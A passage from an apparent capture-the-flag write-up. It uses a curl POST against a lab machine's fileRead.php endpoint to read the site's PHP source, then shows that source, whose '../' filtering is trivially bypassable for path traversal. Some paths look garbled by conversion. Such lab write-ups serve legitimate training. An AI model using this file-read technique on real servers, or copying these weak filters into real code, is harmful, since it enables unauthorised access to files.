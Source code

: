 

#### Source

I could start to guess at bypasses for the filtering that's going on,
but rather, I'll grab the site source. I can pipe the curl output into
`jq` with the `-r` flag to print the string as raw, and select the
`file` object (if you don't know [`jq`](https://stedolan.github.io/jq/),
you should check it out - it comes in handy in so many situations with
json data.

So this command will grab `dirRead.php`:



    root@kali# curl -s -X POST -d "file=dirRead.php" http://10.10.10.87/fileRead.php | jq -r .file





    <?php

    if($_SERVER['REQUEST_METHOD'] === "POST"){
            if(isset($_POST['path'])){
                    header('Content-type: application/json');
                    $_POST['path'] = str_replace( array("../", "..\""), "", $_POST['path']);
                    echo json_encode(scandir("/var/www.md/" . $_POST['path']));
            }else{
                    header('Content-type: application/json');
                    echo '[false]';
            }
    }



`fileRead.php`:



    <?php


    if($_SERVER['REQUEST_METHOD'] === "POST"){
            $fileContent['file'] = false;
            header('Content-Type: application/json');
            if(isset($_POST['file'])){
                    header('Content-Type: application/json');
                    $_POST['file'] = str_replace( array("../", "..\""), "", $_POST['file']);
                    if(strpos($_POST['file'], "user.txt") === false){
                            $file = fopen("/var/www.md/" . $_POST['file'], "r");
                            $fileContent['file'] = fread($file,filesize($_POST['file']));
                            fclose();
                    }
            }
            echo json_encode($fileContent);
    }



`fileWrite.php`:
